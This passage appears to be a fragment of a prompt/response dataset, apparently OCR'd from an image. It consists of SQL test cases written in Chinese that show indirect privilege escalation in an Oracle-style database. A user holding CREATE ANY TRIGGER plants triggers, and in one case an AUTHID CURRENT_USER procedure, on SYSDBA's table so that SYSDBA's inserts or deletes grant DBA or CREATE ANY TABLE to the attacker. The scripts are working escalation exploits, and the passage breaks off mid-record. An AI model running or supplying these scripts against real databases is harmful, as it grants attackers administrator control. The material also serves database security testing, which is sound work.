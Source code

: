 --SYSDBA用户
--删除表，以触发触发器
DELETE FROM SYSDBA.T1 WHERE ID = 1;

--USER1用户
--查询授权结果
SELECT * FROM USER_SYS_PRIVS;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在插入sysdba用户表时，授权DBA权限。sysdba用户插入数据触发触发器，执行授权命令,"--SYSDB用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));
--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;

--USER1
--创建触发器
CREATE OR REPLACE TRIGGER GRANT_DBA
BEFORE INSERT ON SYSDBA.T1
FOR EACH ROW
DECLARE PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN 
 EXECUTE IMMEDIATE 'GRANT DBA TO USER1';
END;

--SYSDBA用户
--插入数据，以触发触发器
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');

--USER1用户
--查询授权结果
SELECT * FROM USER_ROLE_PRIVS;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在插入sysdba用户表时，调用存储过程授权普通用户未有的权限，sysdba用户插入数据触发触发器，执行授权命令,"‘--SYSDBA用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));
--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;

--USER1
--创建存储过程
CREATE OR REPLACE PROCEDURE GRANT_CREATE_ANY_TABLE
AUTHID CURRENT_USER
IS 
 PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN 
 EXECUTE IMMEDIATE 'GRANT CREATE ANY TABLE TO USER1';
END;

--创建触发器
CREATE OR REPLACE TRIGGER TRI_GRANT
BEFORE INSERT ON SYSDBA.T1
FOR EACH ROW
BEGIN 
 USER1.GRANT_CREATE_ANY_TABLE();
END;
